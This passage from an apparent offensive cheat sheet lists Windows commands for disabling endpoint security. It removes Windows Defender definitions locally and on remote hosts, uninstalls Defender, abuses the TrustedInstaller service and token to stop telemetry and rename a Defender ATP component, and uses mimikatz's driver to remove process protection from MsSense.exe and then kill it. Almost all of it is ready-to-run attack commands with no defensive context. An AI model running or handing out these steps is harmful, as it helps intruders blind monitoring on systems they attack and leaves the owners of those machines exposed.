 #### 1.1.2.2 - Remove Definitions

##### 1.1.2.2.1 - Command Prompt

`C:\> "C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all`

`C:\> winrs -remote:<IP> "\"C:\Program Files\Windows Defender\MpCmdRun.exe\" -removedefinitions -all"`

##### 1.1.2.2.2 - Powershell

`PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all }`

#### 1.1.2.3 - Uninstall

##### 1.1.2.3.1 - Powershell

`PS C:\> Uninstall-WindowsFeature -Name Windows-Defender`

### 1.1.3 - Disable Advanced Threat Protection

#### 1.1.3.1 - Disable Endpoint

##### 1.1.3.1.1 - Command Prompt

`C:\> sc config TrustedInstaller binpath="cmd /c sc stop diagtrack & sc config diagtrack binpath='useless value'" && sc start TrustedInstaller`

`C:\> whoami /groups | findstr Trusted`

`C:\> rename "C:\Program Files\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" SenseCncProxi.exe`

##### 1.1.3.1.2 - Powershell

`PS C:\> Set-NtTokenPrivilege SeDebugPrivilege`

`PS C:\> Start-Service TrustedInstaller`

`PS C:\> $process = Get-NtProcess -Name TrustedInstaller.exe`

`PS C:\> $token = $process.OpenToken()`

`PS C:\> $token.Groups | Where-Object ($_.$id.Name -match "TrustedInstaller")`

`PS C:\> $proc = New-Win32Process cmd.exe -CreationFlags NewConsole -ParentProcess $process`

#### 1.1.3.2 - Remove PPL Protection

Be sure to make modification in `mimidrv.c` and re-sign it

`mimikatz # !+`

`mimikatz # !processprotect /process:MsSense.exe /remove`

`C:\> taskkill /f /im MsSense.exe /t`

`C:\> sc qprotection sense`
